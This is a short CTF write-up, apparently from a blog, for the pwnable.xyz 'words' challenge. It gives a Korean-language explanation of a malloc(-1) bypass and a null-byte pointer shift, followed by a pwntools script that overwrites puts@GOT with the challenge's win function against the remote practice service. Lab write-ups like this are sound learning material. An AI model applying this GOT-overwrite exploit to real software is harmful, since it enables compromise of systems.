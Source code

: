 ```yaml
---
title: "[pwnable.xyz]words"
date: 2020-2-29
ctf: Pwnable.xyz
layout: post
---
```


익스 순서는 5번메뉴로 malloc(-1)로 리턴 0으로 우회해서 buf에 reverse 포인터를 박아놓는다. 그리고 3번 메뉴 로직버그 이용해서 계속 문자열을 붙여서 써준다. 그러면 256바이트만큼 채우면 마지막에 널바이트가 붙어서 buf에 넣은 reverse가 0x610e00이 되서 또 5번 메뉴를 사용해서 buf포인터인 0x610e00에 값을 채울 수 있는데 puts@got로 덮고 또 5번메뉴로 덮어주면 된다.

> Exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30036)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
a = 0x0000000000610DA0
buf = 0x0000000000610EA0
reverse = 0x0000000000610EC0

def handles(a,b):
	sa('>','3')
	sa('>',str(a))
	sa('>',str(b))

sa('>','5')
sa(':','-1')
p.send('BBBBBBBBBB')

# handles(1,0) # 24
# handles(2,0) # 36
# handles(3,0) # 41
# handles(4,0) # 43
# handles(5,0) # 35

handles(4,0)
handles(4,0)
handles(4,0)
handles(4,0)
handles(4,0)
handles(3,0)

sa('>','5')
p.send('A'*160+p64(e.got['puts']))

sa('>','5')
p.send(p64(e.symbols['win']))

sa('>','777')

p.interactive()
```

